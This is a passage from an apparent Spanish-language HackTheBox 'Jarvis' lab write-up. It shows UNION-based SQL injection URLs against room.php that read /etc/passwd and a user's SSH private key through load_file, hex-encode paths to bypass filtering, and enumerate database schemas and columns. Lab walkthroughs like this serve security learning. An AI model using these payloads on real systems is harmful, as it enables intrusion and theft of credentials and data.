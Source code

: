 Cuando acemos una selection de las 7 columnas, podemos ver en la web que nos reporta estas etiquetas en la pagina.


```{r, echo = FALSE, fig.cap="SQL Injection Union select", out.width="90%"}
    knitr::include_graphics("images/Jarvis-union-select.png")
```

Aqui vemos que podemos injectar SQL en las columnas **5 - 2 - 3 - 4**

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,database(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,version(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,user(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/etc/passwd"),4,5,6,7 -- -
```

> [ ! ] NOTAS: Si la web no deja incorporar String como en el methodo load_file, se puede transformar el String `/etc/passwd` en hexadecimal y colocarlo ahi. Haciendo
un `echo "/etc/passwd" | tr -d '\n' | xxd -ps` -> 2f6574632f706173737764 y ponerlo en la web `1,2,load_file(0x2f6574632f706173737764),4,5,6,7`

Aqui vemos que tenemos capacidad de lectura sobre ficheros internos passando por la Injeccion SQL. Continuamos

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/tcp"),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/fib_trie"),4,5,6,7 -- -
```

Esto no nos reporta nada. Bueno, ya sabemos que existen 2 usuarios en la maquina:

- root 
- pepper

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/.ssh/id_rsa"),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/user.txt"),4,5,6,7 -- -
```

Como vemos que no se puede avanzar mucho con la LFI, vamos a tirar mas del analysis de la base de datos.

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 2,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 3,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema="hotel" limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema="hotel" limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 2,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room"-- -
```
